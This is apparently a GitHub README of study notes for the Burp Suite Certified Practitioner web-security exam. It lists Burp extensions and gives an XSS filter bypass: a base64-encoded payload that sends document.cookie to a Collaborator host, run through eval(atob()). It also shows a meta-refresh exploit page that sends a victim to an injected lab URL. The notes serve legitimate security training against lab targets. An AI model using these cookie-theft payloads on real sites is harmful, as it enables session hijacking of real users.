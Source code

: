 # <img src="https://icons.iconarchive.com/icons/goescat/macaron/1024/burp-suite-icon.png" width=25> BSCP Methodology

## Table of Contents
* [Useful Burp extensions](https://github.com/dhmosfunk/BSCP/blob/main/README.md#useful-burp-extensions-some-of-them-requires-burpsuite-pro)
* [Cross-Site Scripting Section](https://github.com/dhmosfunk/BSCP/blob/main/README.md#cross-site-scripting-section)
   * [Bypass restrictions method 1](https://github.com/dhmosfunk/BSCP/blob/main/README.md#bypass-restrictions-method-1)
* [Exploit Server Section](https://github.com/dhmosfunk/BSCP/blob/main/README.md#exploit-server-section)
  * [Send exploit to victim (Reflected XSS in search bar)](https://github.com/dhmosfunk/BSCP/blob/main/README.md#send-exploit-to-victim-reflected-xss-in-search-bar)
* [SQL Injection Section](https://github.com/dhmosfunk/BSCP/blob/main/README.md#sql-injection-section)

## Useful Burp extensions (some of them requires burpsuite pro)
- Hackvertor
- Copy As Python-Requests
- Java Deserialization Scanner | [yserial.jar](https://github.com/frohoff/ysoserial) for manual exploitation<b>(prefer because sometime this extension it doesn't work as it should)</b>
- HTTP Request Smuggler


## Cross-Site Scripting Section
You can find an injection point with some payloads from this repository - [PayloadsAllTheThings XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

### Bypass restrictions method 1
Sometimes we found a XSS injection point but with some keyword restrictions, so we have to bypass these restrictions with some techniques like below.
1. Generate the base64 payload

```bash
echo -n "document.location = 'http://<BURP-COLLABORATOR.NET>/?cookie='+document.cookie" |base64
```

2. Insert the base64 payload into atob function
```javascript
eval(atob("BASE64-PAYLOAD"))
<script>eval(atob("BASE64-PAYLOAD"))</script>
```

## Exploit Server Section
#### Send exploit to victim (Reflected XSS in search bar)
With <b>`<meta>`</b> html tag we can redirect the "victim" to our javascript injected search query.
```html
<meta http-equiv="refresh" content='0; URL=https://<LAB_URL>/?search=injection_here' />

<!-- ALL TOGETHER BELOW-->
<meta http-equiv="refresh" content='0; URL=https://<LAB_URL>/?SearchTerm=aa","fd8xsw5l":eval(atob("BASE64-PAYLOAD"))}//' />
```

## SQL Injection Section
